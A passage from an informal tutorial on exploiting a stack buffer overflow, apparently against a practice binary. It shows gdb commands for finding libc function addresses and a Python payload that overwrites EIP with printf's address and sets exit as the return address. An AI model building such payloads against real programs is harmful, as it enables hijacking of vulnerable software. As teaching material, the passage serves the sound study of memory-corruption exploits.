 i explain by this pain way because i want make the reader understand everything under the hood as possible :)
because simply you can do it via  one gdb command  when you run the binary by useing this command inside gdb :

```sh
print printf
print exit
```


but if you want to be a clever exploitation artist, make sure you understand how everything work underthehood really :)


yeah we get them let,s start update our exploit :)

information that we know `eip` stop at `0x55555555` which stands for `UUUU`

```py
#fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
fuzz="Hello Iam Sysc4ll3r :)\x00FGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
ebp="TTTT"
eip="\x90\xdf\xed\xb7"  #  process virtual address which we get for printf function
ret="\xc0\x60\xec\xb7" # process virtual address which we get for exit function
message_addr="AAAA" # we will change it letter after we know fuzz message `Hello Iam Sysc4ll3r....etc" address on stack :)
print(fuzz+ebp+eip+ret+message_addr)
```
